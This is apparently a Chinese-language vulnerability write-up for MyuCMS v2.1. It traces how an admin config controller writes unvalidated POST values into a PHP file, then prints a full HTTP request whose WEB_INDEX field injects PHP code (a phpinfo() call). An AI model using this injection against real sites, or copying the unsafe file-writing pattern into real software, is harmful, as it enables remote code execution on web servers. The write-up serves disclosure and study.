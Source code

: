MyuCMS v2.1 命令执行漏洞
========================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

CNVD上没有说明存在的页面。我找到的是一处能控制 **extre/web.php**
内容的漏洞。

漏洞成因是使用 **file\_put\_contents** 函数更新 **extre**
下配置文件的内容时，未对参数内容做验证，而直接通过循环遍历，拼接到了php后缀的配置文件中。

相同原理漏洞影响3个文件共5处。分别为
**application/admin/controller/Config.php**，
**application/admin/controller/Muban.php**
，**application/admin/controller/Point.php**

此处以 **application/admin/controller/Config.php** 下的 **add()**
方法为例分析

    public function add()
        {
           $path = 'application/extra/web.php';
           $file = include $path;      // $file 的内容为 web.php 中返回的配置数组的值
           $config = array( // 读取 post 中提交的配置内容
             'WEB_RXT' => input('WEB_RXT'),
             'WEB_GL' => input('WEB_GL'),
             'WEB_REG' => input('WEB_REG'),
             'WEB_TAG' => input('WEB_TAG'),
             'WEB_OPE' => input('WEB_OPE'),
             'WEB_BUG' => input('WEB_BUG'),
             'WEB_BBS' => input('WEB_BBS'),
             'WEB_SHOP' => input('WEB_SHOP'),
             'WEB_INDEX' => input('WEB_INDEX'),
             'WEB_KEJIAN' => input('WEB_KEJIAN'),
             'WEB_KEJIANS' => input('WEB_KEJIANS'),
             'Cascade' => input('Cascade'),
             //七牛
             'bucket' => input('bucket'),
             'accessKey' => input('accessKey'),
             'secrectKey' => input('secrectKey'),
             'domain' => input('domain'),
             'qiniuopen' => input('qiniuopen'),
           );
            $res = array_merge($file, $config); // 合并两个数组
            $str = '<?php return [';
            foreach ($res as $key => $value) { // 循环数组，生成新的配置内容
                $str .= '\'' . $key . '\'' . '=>' . '\'' . $value . '\'' . ',';
            }
            $str .= ']; ';
            if (file_put_contents($path, $str)) { // 将配置内容写入 web.php 文件
                return json(array('code' => 200, 'msg' => '修改成功'));
            } else {
                return json(array('code' => 0, 'msg' => '修改失败'));
            }
        }

### Payload

Payload数据包如下：

    POST /admin/config/add.html HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 327
    Origin: http://www.myu.io
    Connection: close
    Referer: http://www.myu.io/admin/config/index.html
    Cookie: PHPSESSID=l6ijpio06mqmhcdq654g63eq90; UM_distinctid=170343d2b4a291-0a4e487f247e62-4c302978-1fa400-170343d2b4b28f; CNZZDATA1277972876=1874892142-1581419669-%7C1581432904; XDEBUG_SESSION=XDEBUG_ECLIPSE

    WEB_KEJIAN=0&WEB_KEJIANS=0&WEB_INDEX=bbs',phpinfo(),'&WEB_RXT=rar,png,zip,jpg,gif,ico,7z&qiniuopen=0&secrectKey=0&accessKey=0&domain=0&bucket=0&Cascade=1&WEB_BUG=true&WEB_REG=1&WEB_OPE=1&WEB_GL=0&WEB_BBS=1&WEB_SHOP=1&WEB_TAG=%e6%8f%92%e4%bb%b6%2c%e5%bb%ba%e8%ae%ae%2c%e6%a8%a1%e6%9d%bf%2c%e7%ad%be%e5%88%b0%2c%e5%8f%8d%e9%a6%88

写入的内容和效果如下：

![11.jpg](resource/MyuCMSv2.1命令执行漏洞/media/rId25.jpg)

![111.jpg](resource/MyuCMSv2.1命令执行漏洞/media/rId26.jpg)

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-4
